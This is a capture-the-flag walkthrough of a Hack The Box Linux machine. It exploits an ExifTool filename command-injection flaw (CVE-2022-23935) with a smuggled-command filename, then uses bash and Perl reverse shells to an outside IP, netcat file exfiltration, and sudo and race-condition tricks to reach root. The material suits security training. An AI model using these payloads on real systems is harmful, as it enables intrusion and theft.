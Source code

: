 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.197
nmap -p 22,80 -sCV 10.10.11.197
```
- Open Ports: 22 [SSH](SSH), 80 [HTTP](HTTP)
- Redirects to: `http://eforenzics.htb/`

### Hosts File
```
10.10.11.197 eforenzics.htb
```

### Feroxbuster
```bash
feroxbuster -u http://eforenzics.htb -x php,html
```
- Found: `/upload.php`, `/service.html`, various assets

---

## 💻 Shell as www-data

### CVE-2022-23935 - ExifTool Filename Injection
- ExifTool version: 12.37
- Exploit by setting filename to a command ending in `|`

### Example Payload:
```bash
filename: ping -c 1 10.10.14.6|
```
Confirm RCE using tcpdump or Burp.

### Reverse Shell
```bash
# Encode reverse shell to avoid special chars
echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0

# Upload using filename set to: bash -c {echo,<base64>}|base64 -d|bash|
```
Receive with netcat:
```bash
nc -lnvp 443
```

### Shell Upgrade
```bash
script /dev/null -c bash
<Ctrl-Z>
stty raw -echo; fg
reset
```

---

## 👤 Shell as smorton

### Find Sensitive Files
```bash
find / -user smorton 2>/dev/null
```
Found: `/usr/local/investigation/Windows Event Logs for Analysis.msg`

### Crontab
```bash
crontab -l
```
Contains cleanup script, broken by immutable log file `analysed_log`.

### Exfiltrate `.msg`
```bash
nc -lnvp 443 > analysis.msg
cat analysis.msg | nc 10.10.14.6 443
```

### Analyze Email
```bash
msgconvert analysis.msg --mbox analysis.mbox
mutt -f analysis.mbox
# Save attachment: evtx-logs.zip
unzip evtx-logs.zip
```

### Convert EVTX to JSONL
```bash
evtx_dump security.evtx -o jsonl -t 1 -f security.json
```

### JQ Analysis
- Identify failed login with password in username field:
```bash
jq -r 'select(.Event.System.EventID==4625) | .Event.EventData.TargetUserName' security.json
```
Found password: `Def@ultf0r3nz!csPa$$`

### SSH as smorton
```bash
sshpass -p 'Def@ultf0r3nz!csPa$$' ssh smorton@eforenzics.htb
```

---

## 🧠 Shell as root

### Sudo Access
```bash
sudo -l
```
Can run: `/usr/bin/binary` as root

### Binary Behavior
- Downloads file from URL (arg1)
- Saves as `lDnxUysaQn` (arg2)
- Runs with: `perl ./lDnxUysaQn`
- Cleans up the file

### Option 1: Perl Reverse Shell
```perl
use Socket;
$i="10.10.14.6";$p=443;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
    open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("sh -i");
}
```
Run:
```bash
sudo binary http://10.10.14.6/shell.pl lDnxUysaQn
```

### Option 2: Bash with Shebang
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4777 /tmp/rootbash
```
Run:
```bash
sudo binary http://10.10.14.6/root.sh lDnxUysaQn
/tmp/rootbash -p
```

### Option 3: Race Condition
```bash
# One terminal:
while :; do if [ -f lDnxUysaQn ]; then mv -f lDnxUysaQn garbage; cp -f 0xdf.sh lDnxUysaQn; sleep 1; rm lDnxUysaQn; fi; done

# Second terminal:
sudo binary http://10.10.14.6/race lDnxUysaQn
```

---

## 🏁 Flags
- User: `fe330173************************`
- Root: `e9f2ff77************************`

---

## 🧩 Notable Tools Used
- [ExifTool](https://exiftool.org/)
- [evtx_dump](https://github.com/omerbenamram/evtx)
- [mutt](http://www.mutt.org/), [msgconvert](https://metacpan.org/pod/distribution/Email-Outlook-Message/bin/msgconvert)
- [jq](https://stedolan.github.io/jq/), [feroxbuster](https://github.com/epi052/feroxbuster)